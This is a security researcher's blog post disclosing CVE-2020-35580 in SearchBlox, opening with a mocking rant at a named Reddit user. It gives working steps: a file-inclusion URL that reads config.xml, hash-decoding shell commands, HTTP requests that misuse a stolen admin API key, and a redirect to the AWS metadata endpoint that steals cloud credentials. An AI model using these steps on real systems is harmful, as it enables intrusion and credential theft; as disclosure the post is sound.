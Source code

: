 ```yaml
---
layout: post
title: CVE-2020-35580
categories: [general]
tags: [cve]
comments: true
---
```


I will start by saying I am not that smart. Never have been, never will be. I know when things are bad and sometimes I can translate that into being top 25 on the all time points list on Bugcrowd. Dropping things like that has never really been my style, but sometimes when I am feeling annoyed at things I see in the world I like the take it out on something else. With that said, I would love to take this opportunity to dedicate this post to a special redditor out there. You know who you are. Well, you dont. Let me give you a hint. You love stupid comments like *That's a lot of text for effectively a Burp Active Scan finding*. Cough,cough @WTF-BOOM. Congratulations! You should feel lucky that you are finally being noticed for something! Even if it is for stupid takes on things you might not understand or know much of anything about. Here's to you!

This dedication isn't actually for some silly man making comments that makes me feel the need to dedicate this to him. The real reason is folks piling on someone isn't cool. Some people are not in a good place to just ignore criticisms and it eats at them and really causes demoralizing issues for them. I am not going to expound on this, but a family member is having a terrible time because of people like you and when I was looking some details from a previous blog post I noticed your helpful comment so I re-wrote my post for you. I couldn't care less that you have crap to post about me, but just let it be known that I am better at it than you are. 

So before I write anything about the bug I found that I needed to answer several questions for somebody that I really shouldn't have to, but apparently it has become necessary.

The Aforementioned Several Questions (Just stop it Ohio State):
### Question 1
When I decide to write a blog post, do I find a target and run Burp Active Scan and huff paint and write about what is found?
- First off great question, I am glad that you asked! As nice as paint can smell, I do not. Active scan doesn't often find things that are in scope on public bounties. I mean it's great and it sure can, but not in this scenario. And if it does, there is a 99.9999% chance that it was found prior and I don't care. Furthermore, I sure can do that. Clickjacking can be scarier than you even know. Maybe even scary enough that I will dedicate a 10 part series on it. Nice feedback.

### Question 2
Did this issue I found without Active Scan deserve a blog post? 
- Well I am glad you asked! Applying for a CVE asks for a reference for publishing details, so yes? By the way, it has a CVE. <https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-35580>

### Question 3
For everyone in disagreement with the answer to Question #2, did this issue I found without Active Scan deserve a blog post? 
- Well, I don't actually care, but hell yes it does. It is a previously unknown issue that needs to be written down. An issue that quite shockingly exists. I am no scientist, but my final vulnerability rating metrics  (the two that matter) were:
```md
Technical complexity Rating : 0
WTF Lulz Rating : 100
```


I will end my rant by saying that if I can reach just one wannabe crap poster than all of this will be worth it. Actually, writing this entertains me so either way I win.

Ok Leroy, lets do this.

I found an external web application and I immediately opened Burp Active Scanner and huffed some paint. Yes, green is the best flavor. Ha. Actually I clicked around as one who does the hacking would do. I did this until I noticed a URL that contained a **url** parameter. Adding a URL to that **url** amounted to an Open Redirect, which was still not found by Active Scanner, sad ;). Despite the url parameter being expressly reserved for URLs, I decided to add an obviously stupid choice of a file name instead of a url. I did it and while I apologize for breaking logical rules, I would do it again. Also, I don't apologize. 

Anyhow, we now have a url and results as follows: 
<https://unhappy.site.com/searchblox/servlet/FileServlet?col=9&url=/etc/passwd>
![etc-passwd.png]({{site.baseurl}}/assets/media/posts/searchblox/etc-passwd.png)

Fantastic, a nice vulnerable system affected by a Local File Inclusion vulnerability which allowed arbitrary files to be read from the underlying operation without authentication. We are so done, submit bug and cash out, write silly blog post about another Active Scan win!

No Leroy, not that. Let's make it worse. With the perk of being able to read arbitrary files, a specific Searchblox file is our best friend.
<https://unhappy.site.com/searchblox/servlet/FileServlet?url=/opt/tomcat/webapps/searchblox/WEB-INF/config.xml&col=1>
 - *Please note that if the **col** parameter (e.g. short for collection) is not provided or if it is too large vs the number of current collections configured on the site, the file contents will not be returned.*In this config.xml file we allow Burp Active Scanner a chance to contribute to this effort. Here there were beautiful things found:
- A (Not The) Super Admin API Key
- Usernames along with Base64 encoded SHA1 password hashes

Luckily we have Burp Active Scan to tell us everything we would ever need to know, let's start with the hashes,actually we had @jreppiks (From the Twitter) who is slightly better than Active Scan with hashes (his words not mine).
1. To Obtain the actual SHA1 Hash, do the following magic:
```bash
# Base64 encoded SHA1 Hash to SHA1 Hash
echo -n "Base64encoded-SHA1-Hash" | base64 -d | xxd -c 20 | cut -d\: -f2 | awk -F' ' '{print $1}' | sed 's# ##g
```
2. Attempt to crack the hash offline with Hashcat and if it is successful it can be easily checked by logging into the application. But if you have a sick compulsion to re-enhash (re + encode + hash == re-enhash) this to see if you get the same value that you fed Hashcat with you can even do the following:
```bash
# re-enhashed Value: D7xtPXym2wO9JBiH0P6vPzIcKqc=
echo -n "CleartextPassword" | openssl sha1 -binary | base64
```

With all the hash chicanery taken care of, lets circle back to that **Super Admin API Key**. If you can imagine, this API key being an API key, allowed API calls to be made that would normally only be afforded to a **Super Admin** user. Shocking. 

So far, I have shown some "Web AppE" (e.g. Technical Term) things in the course of this post. Before we start the final attack, what actually is SearchBlox? It may just be important to get the most out of this. Searchblox is a customizable, enterprise search solution based on Apache Lucene/Elasticsearch for websites, intranets, databases and custom searches. Essentially its purpose is to replace Google's Search Appliance after it went End-of-Life to index enterprise content. With this in mind the best way to attack it may just be to attack it by using its own functionality against itself. If for no other reason, it is absolutely more fun that way. Finally, I must disclose that both Burp Active Scan and I equally contributed to this final attack, let's attack.

First, we create a new collection on the server to store the data that Searchblox indexes.

```md
POST /searchblox/rest/collection/add HTTP/1.1
Host: unhappy.site.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Content-Length: 99
Content-Type: application/json

{ "apikey" : "SHOCKER-AN-API-KEY-GOES-HERE", "colname":"bct3","coltype":"http","language":"en"}

```

Second, we create a custom document instructing Searchblox what to index.

```md
POST /searchblox/api/rest/docadd HTTP/1.1
Host: unhappy.site.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/plain;charset=UTF-8
Content-Length: 187

<?xml version="1.0" encoding="utf-8"?>
<searchblox apikey="SHOCKER-AN-API-KEY-GOES-HERE">
	<document colname="bct3" location="http://evil.bad.site.found.by.burp.active.scanner.com/a"></document>
</searchblox>
```

Finally, we configure our external Apache Web Server with the following .htaccess file:
```bash
# 301 FUN with an .htaccess file
http://169.254.169.254/latest
RedirectMatch "^/.*" "http://169.254.169.254/latest/meta-data/"
```
![htaccess.png]({{site.baseurl}}/assets/media/posts/searchblox/htaccess.png)

So why does all of that matter in the slightest? Well, SearchBlox is used for custom searches and can be configured so specific results are shown based on configured criteria. When it is told to index something it wants to be helpful and will. If we tell it to index content on our external server it go forth and request it. Where it gets fun is when we set up Apache to take any request it gets and redirect it back to the Searchblox AWS metadata endpoint. By doing this Searchblox indexes the specified AWS metadata and then we can search for and view it from the appliances web UI within its search results!  And what better information to be able to search for than AWS credentials!

![indexed.png]({{site.baseurl}}/assets/media/posts/searchblox/indexed.png)

Nifty! Thank all that is right and holy for Burp Active Scan.

Like usual, there is undoubtedly a better payload/solution/attack to exploit this. If you know a better way to do it, please school me / make fun of me / troll me to tears on Twitter @hateshaped!

P.S. If it seems I am denigrating Burp Active Scan, please be assured that I love it. It is only used as the means to prove my previous statements.
